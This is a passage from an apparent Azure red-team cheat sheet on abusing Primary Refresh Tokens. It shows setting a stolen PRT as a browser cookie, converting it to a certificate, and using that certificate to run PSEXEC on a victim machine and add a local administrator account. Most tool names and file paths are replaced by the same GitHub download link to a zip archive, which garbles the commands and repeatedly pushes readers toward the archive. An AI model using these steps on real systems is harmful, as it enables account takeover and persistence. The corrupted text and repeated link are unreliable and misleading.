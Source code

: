 The `<Signed JWT>` (JSON Web Token) can be used as PRT cookie in a (anonymous) browser session for https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip    
Edit the Chrome cookie (F12) -> Application -> Cookies with the values:

```powershell
Name: x-ms-RefreshTokenCredential
Value: <Signed JWT>
HttpOnly: √
```

:warning: Mark the cookie with the flags `HTTPOnly` and `Secure`.


## Pass The Certificate

```ps1
Copy-Item -ToSession $jumpvm -Path C:\Tools\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip -Destination C:\Users\Username\Documents\username –Verbose
Expand-Archive -Path C:\Users\Username\Documents\username\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip -DestinationPath C:\Users\Username\Documents\username\PrtToCert

# Require the PRT, TenantID, Context and DerivedKey
& 'C:\Program Files\Python39\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip' C:\Users\Username\Documents\username\PrtToCert\https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip --tenantId <TENANT-ID> --prt <PRT> --userName <Username>@<TENANT NAME>https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip --hexCtx <HEX-CONTEXT> --hexDerivedKey <HEX-DERIVED-KEY>
# PFX saved with the name <Username>@<TENANT NAME>https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip and password AzureADCert
```

Python tool that will authenticate to the remote machine, run PSEXEC and open a CMD on the victim machine

https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip

```ps1
https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip [-h] --usercert USERCERT --certpass CERTPASS --remoteip REMOTEIP
https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip --usercert "https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip" --certpass password --remoteip 10.10.10.10

python https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip --usercert C:\Users\Username\Documents\username\<USERNAME>@<TENANT NAME>https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip --
certpass AzureADCert --remoteip 10.10.10.10 --command "https://raw.githubusercontent.com/joymondal/Azure-Red-Team/master/phthisiotherapeutic/Azure-Red-Team.zip /c net user username Password@123 /add /Y && net localgroup administrators username /add"
```

